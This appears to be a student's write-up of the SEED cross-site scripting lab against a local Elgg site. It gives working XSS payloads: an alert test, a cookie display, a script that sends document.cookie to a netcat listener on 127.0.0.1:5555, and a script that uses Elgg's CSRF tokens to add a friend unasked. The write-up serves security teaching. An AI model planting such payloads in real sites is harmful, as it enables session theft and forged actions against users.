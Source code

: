 # CS 4173 Lab 5
#### Cross-Site Scripting Attack Lab

## Prerequisites
Versions of software used listed here:
- Environment: SEEDUbuntu 16.04

## Task 1: Posting a Malicious Message to Display an Alert Window

In this task,verify that the system is indeed vulnerable to cross-site scripting attacks. An easy way to test this in general is to submit content with a `<script>` tag and see if something simple such as an alert box can be called. We post the following contents to Samy's profile:

```html
<script>alert('XSS');</script>
```

Upon visiting Samy's profile, the visitor now gets an alert box popup saying "XSS" which confirms that the system is susceptible to XSS attacks.

## Task 2: Posting a Malicious Message to Display Cookies

Now that we can use XSS on this system, we can now start attempting to grab private user data, in particular cookies. We can modify the script above to do so:

```html
<script>alert(document.cookie);</script>
```

## Task 3: Stealing Cookies from the Victim’s Machine

With the above method, we can alert the cookies to the user's screen, but the attacker is not yet able to view this information. In order to transfer this data to the attacker, they can use a malicioius HTTP GET request, for example with a fake image. We can append the information to this request which goes to the attacker's machine. In this example, we are using the localhost IP address since we are testing on the same machine:

```html
<script>document.write('<img src="http://127.0.0.1:5555?c=' + escape(document.cookie) + '>')</script>
```

Then, using the `netcat` utility, we can view the incoming GET requests from the attacker which will include the appended cookie data:

```
$ nc -l 5555 -v
```

## Task 4: Becoming the Victim’s Friend


```html
<script type="text/javascript">
    window.onload = function () {
        let xhr = null;

        let ts = "&__elgg_ts="+elgg.security.token.__elgg_ts;
        let token = "&__elgg_token="+elgg.security.token.__elgg_token;

        //Construct the HTTP request to add Samy as a friend.
        let sendurl = "http://www.xsslabelgg.com/action/friends/add?friend=47" + ts + token;

        //Create and send xhr request to add friend
        xhr = new XMLHttpRequest();
        xhr.open("GET",sendurl,true);
        xhr.setRequestHeader("Host","www.xsslabelgg.com");
        xhr.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
        xhr.send();
    }
</script>
```

### Question 1

These two lines retrieve the tokens which are used to prevent CSRF attacks. In order to make a request, one must have the correct tokens or else the server will reject the request.

### Question 2

If the user can only use the rich text editor, they will not be able to insert malicious scripts into their profile. If we inspect the POST request, we can see that if we attempt to insert a script through the editor, characters such as the angle brackets are converted to their respective HTML entities like `&lt;` and `&gt;` for example. This prevents the HTML from parsing it as an HTML `script` tag and reading it as a regular string instead.